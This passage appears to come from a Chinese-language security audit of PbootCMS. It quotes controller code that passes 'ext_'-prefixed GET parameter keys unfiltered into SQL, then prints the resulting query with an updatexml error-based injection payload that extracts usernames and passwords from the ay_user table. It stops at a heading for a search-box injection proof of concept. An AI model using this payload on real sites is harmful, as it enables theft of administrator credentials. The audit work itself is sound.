 

`PbootCMS/apps/home/controller/ParserController.php`  ,`parserAfter()`

```php
// 解析全局后置公共标签
    public function parserAfter($content)
    {
    	...
        $content = $this->parserSpecifyListLabel($content); // 指定列表
        return $content;
    }
```

```php
// 解析指定分类列表标签
public function parserSpecifyListLabel($content)
{
  ...
  // 数据筛选 骚操作注入
  $where2 = array();
  foreach ($_GET as $key => $value) {
    if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
      $where2[$key] = get($key);
    }
  }
  ...
  // 读取数据
  if ($page) {
  	$data = $this->model->getList($scode, $num, $order, $where1, $where2);
  } else {
  	$data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
  }
}
```

这里读取数据 `$this->model->getSpecifyList`

这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext_ 开头，如果符合就直接拼接进入$where2这个数组 然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

最终 sql 语句

```sql
SELECT  a.*,b.name as sortname,b.filename as sortfilename,c.name as subsortname,c.filename as subfilename,d.type,e.* FROM ay_content a  LEFT JOIN ay_content_sort b ON a.scode=b.scode LEFT JOIN ay_content_sort c ON a.subscode=c.scode LEFT JOIN ay_model d ON b.mcode=d.mcode LEFT JOIN ay_content_ext e ON a.id=e.contentid WHERE(a.scode in ('5','6','7') OR a.subscode='5') AND(a.acode='cn' AND a.status=1 AND d.type=2) AND(ext_price=1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));# like '%12%' )   ORDER BY date DESC,sorting ASC,id DESC LIMIT 4 
```

## 六、搜索框sql注入

poc：
